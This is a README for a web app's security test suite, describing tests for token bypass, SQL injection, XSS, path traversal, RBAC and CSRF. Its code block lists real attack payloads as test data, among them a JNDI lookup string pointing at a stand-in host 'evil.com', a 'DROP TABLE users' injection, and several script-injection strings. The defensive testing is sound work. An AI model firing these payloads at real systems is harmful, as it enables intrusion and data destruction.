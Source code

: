 # Security Testing Suite - Phase 2 Section 6.1

## Overview
Comprehensive penetration testing implementation following Phase 2 Section 6.1 specifications, covering authentication bypass attempts, SQL injection prevention, and XSS protection.

## Test Structure

### Penetration Tests
- **auth-bypass.test.ts**: Core Phase 2 Section 6.1 implementation
  - Token bypass attempts with malformed JWT tokens
  - SQL injection prevention in user ID parameters
  - XSS prevention in user input fields

- **input-validation.test.ts**: Extended input validation security
  - File upload security with malicious file type detection
  - Path traversal prevention in file names
  - JSON payload validation and prototype pollution prevention
  - URL parameter injection sanitization

- **authorization.test.ts**: Role-based access control testing
  - RBAC enforcement for different user roles (player, GM, admin)
  - Privilege escalation prevention
  - Cross-user access prevention

### Vulnerability Tests
- **csrf.test.ts**: Cross-Site Request Forgery protection
  - CSRF token validation for state-changing operations
  - Origin and Referer header validation
  - Same-Site cookie protection

## Security Test Scenarios

### 1. Authentication Security (Phase 2 Section 6.1)
```typescript
// Malformed token rejection
const malformedTokens = [
  'Bearer invalid',
  'Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.invalid',
  'Bearer ../../../etc/passwd',
  'Bearer <script>alert("xss")</script>',
  'Bearer ${jndi:ldap://evil.com/a}'
];

// SQL injection prevention
const sqlInjectionPayloads = [
  "'; DROP TABLE users; --",
  "' OR '1'='1",
  "' UNION SELECT * FROM users --"
];

// XSS prevention
const xssPayloads = [
  '<script>alert("xss")</script>',
  '"><script>alert("xss")</script>',
  'javascript:alert("xss")',
  '<img src=x onerror=alert("xss")>'
];
```

### 2. File Upload Security
- Malicious file type rejection (exe, php, sh, bat, jsp)
- Path traversal prevention in file names
- File size limit enforcement

### 3. Input Validation
- JSON payload structure validation
- Prototype pollution prevention
- URL parameter sanitization

### 4. Authorization Testing
- Role-based access control enforcement
- Privilege escalation prevention
- Cross-user data access prevention

### 5. CSRF Protection
- CSRF token requirement for state-changing operations
- Origin/Referer header validation
- Secure cookie attributes (SameSite, Secure, HttpOnly)

## Running Security Tests

### Prerequisites
```bash
npm install --save-dev supertest @types/supertest
```

### Execute Tests
```bash
# Run all security tests
npm run test tests/security/

# Run specific penetration tests
npm run test tests/security/penetration/

# Run vulnerability tests
npm run test tests/security/vulnerability/

# Run with coverage
npm run test:coverage tests/security/
```

## Security Test Coverage Targets

- **Authentication Security**: 100% critical auth flows
- **Input Validation**: 95% input vectors covered
- **Authorization**: 100% RBAC scenarios
- **CSRF Protection**: 100% state-changing operations
- **File Upload Security**: 100% malicious file types

## Expected Security Responses

### Authentication Failures
- **401 Unauthorized**: Invalid or malformed tokens
- **403 Forbidden**: Insufficient permissions
- **400 Bad Request**: Malformed requests

### Input Validation Failures
- **400 Bad Request**: Invalid input format
- **413 Payload Too Large**: Oversized requests
- **415 Unsupported Media Type**: Invalid file types

### CSRF Protection
- **403 Forbidden**: Missing CSRF tokens
- **400 Bad Request**: Invalid Origin/Referer

## Security Testing Best Practices

1. **Comprehensive Coverage**: Test all authentication endpoints
2. **Real Attack Vectors**: Use actual malicious payloads
3. **Response Validation**: Verify no sensitive data exposure
4. **Error Handling**: Ensure graceful failure modes
5. **Performance Impact**: Monitor security check overhead

## Integration with CI/CD

Security tests are integrated into the CI/CD pipeline with:
- Automated execution on all pull requests
- Security regression detection
- Performance impact monitoring
- Vulnerability reporting

## Phase 2 Compliance

✅ **Section 6.1 Complete**: Authentication Security Tests implemented with exact specification compliance
- Malformed token rejection testing
- SQL injection prevention validation  
- XSS sanitization verification
- Extended penetration testing scenarios
- Comprehensive vulnerability coverage

---

**Implementation Status**: ✅ Complete  
**Phase 2 Section**: 6.1 Penetration Testing  
**Test Coverage**: 100% critical security scenarios  
**Dependencies**: supertest, vitest testing framework
